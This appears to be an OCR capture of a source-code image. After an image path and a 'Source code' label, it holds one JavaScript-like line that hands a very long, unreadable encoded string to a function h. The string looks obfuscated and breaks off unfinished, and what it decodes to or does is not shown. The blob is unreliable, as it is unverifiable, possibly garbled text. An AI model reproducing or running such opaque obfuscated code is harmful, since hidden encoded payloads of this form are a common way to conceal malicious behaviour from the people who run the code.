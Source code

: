 r=h(k,"Dx_KTG;%8mt<kM4L_8LmLTL>4LL<4T4gMkM;mmt4tkt;t<mMt8Gx%L84GL%88L8_8m8G%_%%8Lmm8T8}%k%;_4G%T4T4T_Lm_xK_T.KM4GxTKxxt_KxGK%Kt_k_8_Tx4M<Lt4L44L%txkG44M%L<LMLl4k484_kMkTkTkx<<t4tLtTkKk<<8<T<ytt%x8G%t8K8G%k%;_GT%;k;<G8G;;P%K%;;8;T;YGt_KT;_<KTK8MMgx_txKK%K<_k_8_Tx4M;LGLxMk4t4TLx4_4TMLL%LG4k484TM4m4<T<k<%kLMxkTkr<k<;;48MmTmxmxKm;_%;m%mk8k888T%4T8GmG;G%TmGpLM_GK4K%K_G_TkT<TkT9KkK8K_LkLGLt<MM4484xx%x8rk-8cTL4<;4KMI8mtMM;<L4K4TM8MTMlkt8m<xtMtG%8m_mMtL<KtTt7mkm;GK%<%T;L%x;GG4GLG_Gk;L%_;T;7GkG;gLKG_;_T_8_Tx4xLxTKKK%_8_T_/xtM;LTLYtGk;4t4mM44KM_LK)_484T4CMtm_<L<;;Gm8tLm4t8tGmm84TG%T8;8;8t%M;4%M%T%K8%mx%k%8%T;4vGKxTLT8KLK;KAKM4G&Mx4KKx;_K__xk_LKG_T_exkx;MxL_L84T4k4<Mmmx<mM_MKkk4%48MkM8MTk4m%<;m4GmmMt;8L<K<Gt8tTtomtGK%_;M_GG8G4;<;8%<8G%r;k;8;__kTtTKTKK_K<___mMm78_Gxkx<(4V;x:_KK_x8xTx0Ut4G4;4kM845MLkMmKk8kT88tKkt<Gt<m<<<8T%xt;t<<%<8tkt8tTm4;L%_%M_mTM%;GL8K8T%8%T%F;tT;GGK4K8T;Tx_4TLG7TTTcKkK;Lxx_x8zTekR<Lmx<_GxCikV8h_k44KMt4Kk4M%MT<4kG%GtT<?<<t4<x<xkKk;<8<T<ltt;_8x%MG%8;8x%M%T;L8%t;%k%8%T;4K_G;TmTMK4TxKm_44GKT_f_<x4_x_xxkkG*%RkF<<G4xMj<8M_LiML4_4xM;8MktkmkGk_<M%;M<L%MQkkk8k_mKt4m884m<8m8;KM;LT%KxKGTL%t;L;W;_;TGLT4imGKGPLM_mK8SvxtK8_%_t_mx4M4K<KkKb_k_8__M<hTLKtMMxLt4Kq%5GLkL8LT44<;tmM_<<ML48MTMnkkk;8Kt<ttmttxmkTG%8%48<8%%t%k%<%8888T8n%k%8%T%uGkt%;%;kGkG8GTT4x-_t_<_*MGLMx_xEZ;0Tx;_Bxkx8xTx#Zk18eTTELLB_LTLa4k4;t<<4kMk;k5;m8M<;mLkKkt<8<T<}tt%T8_Mk<kMT<{%8_GT%;;;kG8Gm%%8K;k;8;TG4__K_Kx4mg8_tKxK_MGLTxGStxGxGi_b<<GkKx%x4+kP83TL4MT<TkTtM<%k8t4ttm8t_mMk=tLk<kLk3<k<8<_;tmtmK8k8<%;KxGG%4;%8<mt8R%k%8%__tGKTtTtK4LG_TTx_tK%KTMM kx4x4__xG,;xG*ka<xLxLxTxF&k;4%K%_;xGmG%G84Ll_4T47MkM;mttttm;x8-t_tmttTM;k8M8_8M8M%t8K_MK<_GGT;c;<G4;x;x%K88;8;T;=GtTK_LTx_;KTKox4_mxtxx4KMTMRMGk4ktk_<L<M<M<m<{tmtmt;txmt4LLT4T4aMkM;m<<8<t<Tt;tJm4Gx%Gm48%t<<btgmkm8m_G;%4_xTMG4;mxxKLG8T8Tk;%%!GkG8GTT4=%__Kx_x_%_jxkx;kG4_xxdML;LTL8xKx4U8zT(WLtkxM_MM8G<Tk;k;kt<Mt4<M<T<KGM%_;4mG<%<ttkt8tTm4;88x%_;4;m_xTG;4G%%<84%i;k;8;__;TTT1K<xk_t_Txknk_m_Kx;x%gkxT4G)_LmLGL_L%k;LGLx4<LLS_LTLF4k4;t<<tkT<k<;;m8M<;mLkKMT<8<T<Utt;G8_%t%m%M8;_mG8;t;<;kxGTKG_GMG%TtKLT4TmKtKkK%TLG4TTTBKkK;LMx<.txTx^<m4;<xCxL8tGLGM44<MkM;4x8mt;ktkt4K4%M8MTMPkt88tkt8t_mK84Tm;Mm;%LtKttm8mTmV8tTL;;;%GLG_QMKGTtT8T_T%KmTTG%;xTkT8TTK4lGx;_xkmL8itUt545xL_wxL8L%tx<;<_LLfxLTL54k4;tt<4k_<;;Mmkttt_k%k<<k<8<Tt4%m;48;848_%t_MGx%t;K8%8m%k%8%T;4_mT;T<TuLGxmT__<TLGxTTTeKkK;LKxGxTxx!MLt<GkKxTx7uki8CTQUMk;%KTLKIT484T4wMtm_<<<_<_t;GM%kt%tJtpmkmTm%8_8<KGGG%_;L;t;L%CG4%L8K%T%P;k;;_GKtTLK;4Mxm_4_;_Px4KLTTKTKo_k_;MLSG,TimtMkLL%L;4;4M48L<vKL/4k484_tkkmkt<mt4;GmTt_tGmtmTtxm8m%t<<%t!mkm8m_Gx%TTm;kxmKM;;TL!m5MKGT_T;LGxkK_T_44T<TLTvKkK8K_4<xx1_qxL4<GMK44LGLx0<f8^dLkL8;8;mGkTM4%4kMkM8MTk48%<{tkt,m;Gx;Lm8mT88%4tKtGm8mTmo8tG<;_;<_GxxKGG4T%;<%_;eGkG8G_xmK%K6_%x4x8_GkML%Utxmx_bkxLxkxTxf2k;t%M%T;xL<LMLU4k484_<l<;<M<m8<t;tLtTkKMK<8<T<wtt;Km_8_8x%G_M;t_GTK;kGt;mxxTbG_G_G;TmKtTmT9KLGKGTT8TTTiKtLGH4km4MxZ,kLMxL_4xTx)Wkr;k7Mt4%mx<xk4k;kMk_k<k8<m<;<m;GmG<;mktTtXm<<K<Gt8tTtvmt;TGvGm_GKT_M_m_M%<m;%0;k;8;__8TGTGK;K;_4K<__Mm_4_2__x<kG&8L4u;Lt<xLKL8L%txMLM44m4GM_M<8Gt%tMtkM4MmM%Mtkkk8kT<488mmm;m%m4Tx;G84%%m<mLmO8k888_TkG;;%G__kGTTLTKT_KkG<;QGuTkT8T_LM_txLxT+4xT(L<M4<4KM8x%_%Xkh8WTL4<;MLM;M;kt8x<vkMk%<t<8t4;GmTt;t;ttmM84mMmTmKt%t8mkm8mT84Gk_4K4%K;t;KG_%K8G;8;T;EGtx_K<K_K__;MMLLx4x8xGxMNtxKxi<m48LtLtL4Lx4_Lx484%L<X%Ly4k484_tkktkKkK<_<<t;GMtMmMm;TM%T848M8m%48%m<t8m*8k888_GOGtGMGFG8G_T;LMTMTTLxdLKGKTKmxL_4_%x8K%K<_k_8_Tx4Mk4,tMkLk4MTkGk_kK<8L%LM4k484TM4t8k_k_<_tm;x8Tmtt_m;TM8xtLkTtTtumkm;;x%x;t_xGQ;M;%;RG<G3TtGTGxLmx%K_TxKMKx_;_T_<_T_;x<EMx8_<_L_gxkx8x_kM4tLT4;4<Mtmx<GM4k%4<Le4/MkM8M_mxt4tGt_8mt%m;mtm_mt84t%t8mkm8mT84GL;_TLGM;TTg;G%K%;;8;T;)Gtx%Km_tK%_;MM!x_txKK%Km_k_8_Tx4M;5GLG44L%kmL_M<LLRKLTLS4k4;mLk<kTk9<8mxt;<%t_t%<LMt<T<Rtkt;;G888_86_MGx;;;T;8xmxMK%;_G%T8TtTkT%K;LxK<K84Gxx_348a__HQLx_xx#;k;_K_Gx8xTxqptMT4R4<M44x4x8mm84<L_4qMkM8M_tptt<T<xm<tTt;m<8MTG%x8L88mLt8mTmU8k8;KL;<;TGkG_G%#G_KTkT%KtTT4Mx_x<T<TkT&KkK8K_44xM=;/V64HmL;x%x4^k58cTL4kL4?Mtk<k4k;%MmtkmkGt4tk<Ek<M_kC<k<8<_;k8;mKKM%K8T%L%__mT%;;%xGt%LtT%T%=;k;;_GKtT<K;4M_t4GKT_